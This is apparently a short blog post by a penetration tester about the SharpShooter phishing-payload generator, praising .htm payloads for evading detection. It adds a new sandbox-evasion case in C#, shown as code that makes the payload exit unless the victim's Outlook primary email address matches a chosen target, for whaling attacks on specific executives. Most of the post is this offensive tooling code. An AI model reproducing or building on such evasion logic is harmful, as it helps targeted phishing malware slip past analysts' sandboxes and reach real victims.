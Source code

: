 ```yaml
---
layout: post
title: Sharply shoot phishing target
---
```


Thanks Sharpshooter for providing such a excellent tool to generate payload. File with .htm extension is so much easier to go under the radar.  <br>

Although it comes with sandbox evasion, I may not able to use that 4 built-in techniques to distinguish a well-built sandbox from a normal laptop. Then I realized enterprise email account would be a good identifier, if you are doing whaling. Just add a new Case and ask outlook for primary address, not credential prompt on client-side~~~

In SharpShooter/CSharpShooterStageless/SharpShooter.cs
```C#
public void CheckPlease(int check, string arg)
  {
      CheckPlease cp = new CheckPlease();
      switch(check)
      {
          case 0:
              if (!cp.isDomain(arg)) Environment.Exit(1);
              break;
          case 1:
              if (!cp.isDomainJoined()) Environment.Exit(1);
              break;
          case 2:
              if (cp.containsSandboxArtifacts()) Environment.Exit(1);
              break;
          case 3:
              if (cp.isBadMac()) Environment.Exit(1);
              break;
          case 4:
              if (cp.isDebugged()) Environment.Exit(1);
              break;
          case 5:
              if (!cp.isDesignatedEmail(arg)) Environment.Exit(1);
              break;
      }
  }
```

In SharpShooter/CSharpShooterStageless/CheckPlease.cs

```C#
public bool isDesignatedEmail(String input)
{
    if ((new Outlook.Application()).Session.Accounts[1].SmtpAddress.Equals(input))
    { return true;}
    else { return false; }
}
``` 
